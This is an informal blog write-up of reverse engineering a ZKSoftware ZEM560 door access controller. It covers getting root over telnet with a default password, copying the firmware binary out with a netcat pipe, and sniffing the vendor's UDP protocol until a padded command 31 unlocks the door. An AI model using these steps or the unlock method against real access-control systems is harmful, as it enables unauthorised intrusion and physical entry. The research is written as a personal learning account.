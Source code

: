 # Opening doors
1468195200

_Or trying to reverse engineering a access control_

Everything started with me trying to get my RaspBerry PI to unlock a door . The door I’m supposed to open has a access control , like that one :

![](img/0__4EY4LBSsXPscOzOX.png)

So … that’s a shit/toy-ish/R$2k/access control and it fucking opens doors . How to get my rasp to control it ? _No , I can’t just open it and read the UART or something — it costs 2k_. I’m going to try to get remote control , NMAP TIME !

				$ nmap -sV 10.0.3.-

Yeah , I use fish , I like autocomplete , I don’t memorize commands , judge me. If you don’t get it , if it was bash it would be a `*` instead of a `-` w/e .

				Starting Nmap 7.12 ( https://nmap.org ) at 2016-07-10 23:15 BRT
				Nmap scan report for 10.0.3.117
				Host is up (0.094s latency).
				Not shown: 994 closed ports
				PORT STATE SERVICE VERSION
				23/tcp open telnet ZKSoftware ZEM560 access control device (Linux 2.6.24; MIPS)

Or something like that , there is a port missing   
Open 23 ! And what the fuck is ZEM560 ? Googling aroung I’ve found that shit has already been pwned : [blog.zerial.org/seguridad/vulnerar-la-seguridad-fisica-de-un-control-de-acceso-biometrico](http://blog.zerial.org/seguridad/vulnerar-la-seguridad-fisica-de-un-control-de-acceso-biometrico/) && [blog.infobytesec.com/2014/07/perverting-embedded-devices-zksoftware\_2920.html](http://blog.infobytesec.com/2014/07/perverting-embedded-devices-zksoftware_2920.html) . Unfortunately they are all about the web panel , which is turned off in my case . But it have a series of default login/password for the telnet and one of them worked . I was going to brute force it , but it worked on the second try , wut .

				$ telnet 10.0.3.117Trying 10.0.3.117…Connected to xxxxxxxxxxxxxxxEscape character is '^]'.

				Welcome to Linux (ZEM560) for MIPSKernel 2.6.24 Treckle on an MIPSZEM560 login: rootPassword:# iduid=0(root) gid=0(root) groups=0(root)

YEESSSS , root , lol , that was easy. Soooo , what the fucking is running and how to open the FUCKING door ?

				# ps  PID USER       VSZ STAT COMMAND    1 root      3788 S    init    2 root         0 SW<  [kthreadd]    3 root         0 SW<  [ksoftirqd/0]    4 root         0 SW<  [events/0]    5 root         0 SW<  [khelper]   40 root         0 SW<  [kblockd/0]   48 root         0 SW<  [ksuspend_usbd]   54 root         0 SW<  [khubd]   57 root         0 SW<  [kseriod]   75 root         0 SW   [pdflush]   76 root         0 SW   [pdflush]   77 root         0 SW<  [kswapd0]   78 root         0 SW<  [aio/0]  624 root         0 SW<  [mtdblockd]  657 root      3788 S    /bin/sh /etc/init.d/rcS  663 root         0 SW   [eth0]  665 root      3852 S    telnetd -l /bin/login  700 root      9396 S    /mnt/mtdblock/inbiocomm  703 root     18516 S    /mnt/mtdblock/main 5570 root      3852 S    -sh 5573 root      3920 S    /bin/login 5574 root      3852 R    ps

“rcS” and “main” looks interesting , I’m gonna check it out .

				# cd /mnt/mtdblock/# lsLANGUAGE.E                 firmware_20160615.log_bak  LANGUAGE.S                 firmware_20160616.log_bak  auto.sh                    firmware_20160619.log_bak  custattstate.dat           firmware_20160620.log_bak  custvoice.dat              firmware_20160623.log_bak  data                       firmware_20160625.log_bak  drivers                    firmware_20160702.log_bak  dump.txt                   firmware_20160703.log_bak  eerom.txt                  firmware_20160707.log_bak  extlog.dat                 firmware_20160710.log  extuser.dat                font  firmware_20160411.log_bak  getf  firmware_20160413.log_bak  iengine.lic  firmware_20160416.log_bak  inbiocomm  firmware_20160420.log_bak  lconfig.bin  firmware_20160422.log_bak  lib  firmware_20160423.log_bak  lost+found  firmware_20160426.log_bak  main  firmware_20160503.log_bak  nprog.log  firmware_20160507.log_bak  number.log  firmware_20160511.log_bak  oplog.dat  firmware_20160520.log_bak  options.cfg  firmware_20160521.log_bak  sms.dat  firmware_20160523.log_bak  templatev10.dat  firmware_20160524.log_bak  test.sh  firmware_20160525.log_bak  transaction.dat  firmware_20160527.log_bak  udata.dat  firmware_20160607.log_bak  usbpower.zem500  firmware_20160609.log_bak  user.dat  firmware_20160610.log_bak  wav  firmware_20160613.log_bak  workcode.dat  firmware_20160614.log_bak

SOOOOOO MUUUUUCH THINGS TO LOOK ! ( and so many .log\_bak , clean your shit )

				# cat options.cfg
				TCPPort=4368  ~ShowSecond=0~PrinterFunOn=0ConnectMODEM=0  ~MaxUserFingerCount=10~OutSensorFunOn=0~ProductTime=~SerialNumber=AdmRetry=3  DtFmt=0  NetSpeed=0  HiSpeedNet=8  IPAddress=192.168.1.201  NetMask=255.255.255.0  ~MIFAREID=0~iCLASS=0~iCLASSID=0~iCLASSTYPE=0~RFFPC=1FPRetry=3  PwdRetry=3  HavePowerKey=1  LockPowerKey=0  ~ASFO=1AlwaysShowState=0  ~ShowState=1…etc  etc

And it goes on , and on How the fuck I get the “main” binary out of there ?

On my pc :

				$ nc -l -p 666 > main

On the very-fucking-expensive-shit :

				# cat main | nc 192.168.0.42 666 #No idea what my IP was

And I know that’s a shitty way to transfer files , but it worked , yay. IDA time ? Maybe , but I’m a newbie in Reverse can’t even do the easy ones in the CTFs :’( What I was thinking ? Anyway , gonna leave this alone . The binary are here , if someone want to take a look : [main](https://usercontent.irccloud-cdn.com/file/2zmjRRUE/main)

A week after …

I’ve found the piece of software that controls it : [setup_soapAdminCA_V2_1_5.7z](http://www.automatiza.com/wp-content/uploads/2015/07/setup_soapAdminCA_V2_1_5.7z)

![](img/0__cB__xeUzgAz7yFMil.png)

And it has a button called “Liberar Acesso” , Read it “open the fucking door”

![](img/0__n__CJmYpjK0WOzhJ1.png)

You just put the IP and the custom port , which by default is 4370 — that was the port I was talking about — and voilà ! It opens the door , any door!

What is easier ? Sniff the network or reverse the software ? Wireshark , always.

![](img/0__4TaA2nnHnwwHyShU.png)

Some TCP , a lot of UDP going on . The connections starts with a

![](img/0__bezr0c3Z1n5gNYXq.png)

And ends with

![Highlighted part is the data](img/0__dWX__erP__9rkBzEcw.png)
Highlighted part is the data

Looking around the .pcap it looks like there is two kinds of commands , first one just send a number and has 8 bytes of data :

![](img/0__H8dSW3OrR__orknXK.png)

and the other sends a `0B 00` plus a string:

![](img/0__LRwd83wUZevcAe5Y.png)

Googling around again — I should do this more often — I found this piece of gold [github.com/dnaextrim/python\_zklib](https://github.com/dnaextrim/python_zklib) . Fucking BIG thank you dnaextrim ! Random dude that reverse that insane custom protocol !

The zkconst.py has a lot of revealed commands :

				CMD_CONNECT = 1000  CMD_EXIT = 1001  CMD_ENABLEDEVICE = 1002  CMD_DISABLEDEVICE = 1003  CMD_RESTART = 1004  CMD_POWEROFF = 1005CMD_ACK_OK = 2000  CMD_ACK_ERROR = 2001  CMD_ACK_DATA = 2002CMD_PREPARE_DATA = 1500  CMD_DATA = 1501CMD_USERTEMP_RRQ = 9  CMD_ATTLOG_RRQ = 13  CMD_CLEAR_DATA = 14  CMD_CLEAR_ATTLOG = 15CMD_WRITE_LCD = 66CMD_GET_TIME  = 201  CMD_SET_TIME  = 202CMD_VERSION = 1100  CMD_DEVICE = 11CMD_CLEAR_ADMIN = 20  CMD_SET_USER = 8  CMD_PREPARE_DATA = 1500  CMD_REFRESHOPTION = 1014  CMD_FREE_DATA = 1502  CMD_RESTART = 1004  CMD_REFRESHDATA = 1013LEVEL_USER = 0  LEVEL_ADMIN = 14

That first UDP packet sends `E8 03` as the first byte , which is 59395 in decimal , but `03 E8` ([cs.umd.edu/class/sum2003/cmsc311/Notes/Data/endian.html](https://www.cs.umd.edu/class/sum2003/cmsc311/Notes/Data/endian.html)) is 1000 in decimal ! WHICH IS THE FUCKING `CMD_CONNECT` COMMAND ! Yeah , I got hyped , three days to figure this out

But nothing of “open the door” :’( So I’ve edited one of the zklib’s function to send custom commands :

And tried to send every one of the commands on the pcap to open the door and none worked :’( Even tried to send’em in the same order — I play a lot of CTFs , overthinking is my morning coffe .

There was two commands of the first type that it hasn’t been reversed , `69` and `31` . Send them in my custom function didn’t work :’( After a lot of redbulls and dreaming about the packets , I’ve realized that the `31` command always have `00 00` attached to the final , which is odd . So I tried to attach a bunch of “A” in the end of the packet and IT WORKED ! THE DOOR OPENED ! FUCK YEAH ! weird as fuck , but yeah , done ! Just copy the script to the raspberry and it’s done .

YAAAAAAAAAAAAAAAY ! FIREWORKS !!!

Post Mortem :  
1\. My first tough was to figure out what to write in some /dev/ , if someones knows how, please comment  
2\. Probablly that protocol is not so custom and I’m just dumb  
3\. `66` is the command to make that thing play a sound  
4\. You can edit a lot of this with root , A LOT  
5- I’m n00b , sorry if I get something wrong

